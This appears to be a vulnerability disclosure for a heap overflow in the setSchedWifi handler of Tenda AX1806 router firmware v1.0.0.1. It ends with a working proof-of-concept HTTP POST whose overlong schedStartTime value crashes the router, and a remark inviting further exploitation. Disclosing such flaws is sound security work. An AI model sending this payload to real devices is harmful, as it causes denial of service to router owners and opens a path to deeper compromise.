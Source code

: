 # TENDA AX1806 v1.0.0.1 heap overflow Vulnerability in setSchedWifi

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3422.html
- Affected firmware version：v1.0.0.1

<img src="img/0.jpg" style="zoom:50%;" />

## Vulnerability Description

There is a heap overflow vulnerability in `setSchedWifi` function, in which the `src` and `v12` are directly obtained from http request parameter `schedStartTime` and  `schedEndTime` without checking their size. Then this function calls the `strcpy` function to copy the `src` to `v5+2`, and the `v12` to `v5+10`, while `v5` is a heap pointer. So, it's likely to cause a heap overflow.

This Vulnerability can easily lead to a Denial of Service(DoS). 

<img src="img/1.jpg" style="zoom:50%;" />

## POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.2.1
Cookie: password=a3b0b5bfc81588a7fb32b4278d53178akan5gk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

schedStartTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

<img src="img/2.jpg" style="zoom:50%;" />

The router will crash after sending the poc, and you may modify this for further exploiting.